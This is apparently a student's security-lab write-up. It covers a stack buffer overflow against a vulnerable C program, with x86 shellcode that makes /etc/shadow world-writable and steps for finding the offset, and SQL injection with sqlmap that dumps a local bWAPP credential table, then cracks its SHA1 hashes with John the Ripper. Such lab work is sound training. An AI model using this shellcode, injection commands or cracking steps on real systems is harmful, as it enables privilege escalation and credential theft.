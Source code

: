 # TEST
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Answer 1**:

- We first create a vuln.c and shellcode.c file and fill the content with the given C program

```
    nano vuln.c
    nano shellcode.c

    # compile
    gcc -m32 vuln.c -o vuln -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
    gcc -m32 shellcode.c -o shellcode -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```

- Applying the Code Injection method, the flow will following the steps:
    + Retrieve bytes code from our malicious program
    + Determine the buffer offset
    + Determine the location for shellcode
    + Craft the payload
    + Proceed the exploitation

- We'll proceed using objdump to get the bytes code from our compiled shellcode

```
    objdump -d ./shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

- Next we use pattern to determine the offset
```
    pattern create 200 pattern.txt
```
- Run the program with the pattern.txt as input to oerflow the buffer
```
    r $(python -c "print(open('pattern.txt', 'r').read())")
```

![image](images/image7.png)

- Program crashed at 0x41412d41, use pattern offset to see the offset
```
    pattern offset 0x41412d41
```

![image](images/image8.png)

- Offset at 20 which means we'd need 20 bytes to reach EBP
- payload = padding + return_address + nop_sled + shellcode

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases

**Answer 1**:

To retrieve all the available databases on the target website, we use sqlmap with the argument `--dbs`.

Firts step, we need to determine the valuable parameter to attack. When open the webpage, we were redirected to a login page, let's input a random username and password and check f12 networks to see what the endpoint is

![image](images/image.png)

Alright so our target endpoint is
`http://localhost:3128/unsafe_home.php?username=test&Password=test`

Replace the port 3128 with port 80 since we're executing the command from inside docker. Therefore the command will be

``` 
    sqlmap -u "http://localhost:80/unsafe_home.php?username=test&Password=test" --dbs
```

![image](images/image1.png)

**Question 2**: Use sqlmap to get tables, users information

**Answer 2**:

After we retrieved the available databases (information_schema and sqllab_users), next exploit further the sqllab_users table

``` 
    sqlmap -u "http://localhost:80/unsafe_home.php?username=test&Password=test" -D sqllab_users --tables
    sqlmap -u "http://localhost:80/unsafe_home.php?username=test&Password=test" -D sqllab_users -T credential --dump
```

On output, it can be observed that there's only one table (credential) in the sqllab_users database, and using the second command we can retrieve the full information from the credential table with the password column still being hashed.

![image](images/image2.png)
![image](images/image5.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit

**Answer 3**:

In Answer 2, we already dumpped and stored the hashed password to a separate file for further exploit.

To identity the hash algorithm, we'll use hashid, a library in python.

```
    hashid -mj hash_pw.txt
```

![image](images/image3.png)

Hashid suggest that the encrypt can be crack by using john specifically the format raw-sha1

```
    john --format=Raw-SHA1 hash_pw.txt
```

All the passwords have been cracked!

![image](images/image6.png)